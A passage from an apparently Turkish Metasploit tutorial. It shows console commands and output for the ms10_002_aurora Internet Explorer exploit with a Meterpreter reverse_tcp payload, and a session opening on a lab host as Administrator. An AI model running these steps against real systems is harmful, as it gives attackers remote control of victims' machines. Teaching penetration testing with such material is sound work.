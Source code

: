```bash
Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf exploit**(**ms10_002_aurora**)** > set URIPATH /
URIPATH **=>** /
msf exploit**(**ms10_002_aurora**)** > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=>** windows/meterpreter/reverse_tcp
msf exploit**(**ms10_002_aurora**)** > set LHOST 192.168.1.101
LHOST **=>** 192.168.1.101
msf exploit**(**ms10_002_aurora**)** > exploit -j
> Exploit running as background job.

> Started reverse handler on 192.168.1.101:4444 
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
>  Local IP: <a href="http://192.168.1.101:8080/">http://192.168.1.101:8080/</a>
> Server started.
msf exploit**(**ms10_002_aurora**)** >
```



Açılan yeni oturumu `sessions -l` komutuyla görebilirsiniz. Aşağıdaki listede kendi IP adresimizden `LHOST: 192.168.1.101` diğer hedef bilgisayara `RHOST:192.168.1.201` bağlantı kurulduğu görülmektedir.


```bash
msf exploit**(**ms10_002_aurora**)** > 
> Sending Internet Explorer "Aurora" Memory Corruption to client 192.168.1.201
> Sending stage **(**749056 bytes**)** to 192.168.1.201
> Meterpreter session 1 opened **(**192.168.1.101:4444 -> 192.168.1.201:8777**)** at Mon Dec 06 08:22:29 -0700 2010

msf exploit**(**ms10_002_aurora**)** > sessions -l

Active sessions
**===============**

  Id  Type                   Information                                      Connection
  --  ----                   -----------                                      ----------
  1   meterpreter x86/win32  XEN-XP-SP2-BARE\Administrator @ XEN-XP-SP2-BARE  192.168.1.101:4444 -> 192.168.1.201:8777

msf exploit**(**ms10_002_aurora**)** >
```



## 1.Bilgisayarın Ağ Kartları
